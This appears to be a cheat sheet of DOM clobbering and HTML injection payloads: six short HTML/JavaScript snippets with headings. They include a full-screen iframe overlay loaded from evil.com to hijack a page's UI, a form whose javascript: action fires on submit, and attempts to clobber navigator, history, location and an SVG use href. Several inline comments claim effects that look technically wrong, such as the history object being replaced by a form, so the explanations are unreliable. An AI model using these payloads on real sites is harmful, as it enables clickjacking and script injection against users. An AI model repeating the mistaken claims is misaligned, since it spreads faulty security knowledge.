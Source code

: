 
### Inject <iframe> to Hijack UI
```html
<div id="a1"></div>
<script>
a1.innerHTML = `<iframe id="foo" src="https://evil.com" style="position:fixed;top:0;left:0;width:100%;height:100%;z-index:9999;"></iframe>`;
</script>
```

### Use <form> to Override submit Behavior
```html
<div id="a2"></div>
<script>
a2.innerHTML = `<form id="submit" action="javascript:alert('Submit hijacked')"></form>`;
submit.submit(); // Triggers alert
</script>
```

### Hijack navigator Property
```html
<div id="a3"></div>
<script>
a3.innerHTML = `<form id="navigator"></form>`;
console.log(navigator.userAgent); // May break or throw
</script>
```

### Manipulate history API
```html
<div id="a4"></div>
<script>
a4.innerHTML = `<form id="history"></form>`;
history.pushState({}, '', '/clobbered'); // history is now the form
</script>
```

### Inject via SVG use Tag
```html
<div id="a5"></div>
<script>
a5.innerHTML = `<svg><use id="use" href="javascript:alert(6)"></use></svg>`;
alert(use.href.baseVal); // Triggers if href is parsed
</script>
```

### Clobber location.hash Behavior
```html
<div id="a6"></div>
<script>
a6.innerHTML = `<form id="location"></form>`;
location.hash = '#clobber'; // Hijacks or throws
</script>
```
